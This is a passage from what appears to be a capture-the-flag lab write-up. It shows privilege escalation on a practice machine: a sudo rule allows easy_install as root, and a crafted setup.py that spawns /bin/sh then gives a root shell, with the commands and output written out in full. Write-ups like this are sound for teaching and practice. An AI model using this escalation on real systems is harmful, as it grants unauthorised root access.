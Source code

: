 Land on the box as the developer user and see if this user can run any commands as a different user:
```bash
$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```
A binary that can be ran as root? GTFOBins angle...
![[Pasted image 20221022225538.png]]
Seems pretty easy...
```bash
$ TF=$(mktemp -d)
$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
$ sudo easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.Eoepkl0Igi
Writing /tmp/tmp.Eoepkl0Igi/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.Eoepkl0Igi/egg-dist-tmp-8LfOop
# id
uid=0(root) gid=0(root) groups=0(root)
```
Easiest root ever which makes up a bit for how impossible the foothold was
